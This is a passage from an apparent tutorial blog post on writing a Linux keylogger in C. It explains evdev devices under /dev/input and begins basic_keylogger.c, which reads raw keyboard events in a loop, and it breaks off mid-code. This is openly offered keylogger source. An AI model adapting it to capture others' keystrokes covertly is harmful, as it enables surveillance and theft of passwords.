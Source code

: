 ```yaml
---
title: Keylogger for Linux
date: 2021-02-02T14:47:26+05:30
tags:
  - linux
  - keylogger
  - C programming
draft: false
comments: false
---
```


> Developing a low level keylogger for linux using C.



I am putting this blog in a bottom-up approach. We'll start with the basic program that can act as a keylogger.

### What is a Keylogger?? How to make one?

> Keylogger is a program (or a hardware sometimes) that logs all the keystrokes made by the keyboard.

We know that there is something in OS that listens to the keyboard events and perform actions accordingly. For example, when we press *alt+tab* it changes the current focus to another application/screen.

According to wikipedia, in linux, the [event devices](https://en.wikipedia.org/wiki/Evdev) generalizes all the raw input from device drivers and makes them available through character devices in `/dev/input/` directory.

*(If you don't know about `character devices`, think it as a real-time stream data)*

All the event files/devices are located in `/dev/input/` directory. It was very easy to figure out the file after looking at the directory structure.

![directory-structure](https://cdn-images-1.medium.com/max/640/1*X9cxcchj9h9vGjHKAtG_mg.png)

It is pretty obvious that my keyboard event file is `/dev/input/by-path/platform-i8042-serio-0-event-kbd`. (For you, this may change, but it'll have **kbd** in it's name!!)

So I wrote a program that will continuously read data from this file and print it on screen.

CODE - `basic_keylogger.c`
```
#include <errno.h>
#include <fcntl.h>
#include <linux/input.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
  errno = 0;
  struct input_event ev;
  //This is the keyboard event file
  char* kbd_path = "/dev/input/by-path/platform-i8042-serio-0-event-kbd";
  int fd = open(kbd_path, O_RDONLY);
  if(fd == -1)
  {
    printf("Error %d\n", errno);
    exit(EXIT_FAILURE);
  }

  while (1)
  {
    read(fd, &ev, sizeof(struct input_event)); //read from keyboard
```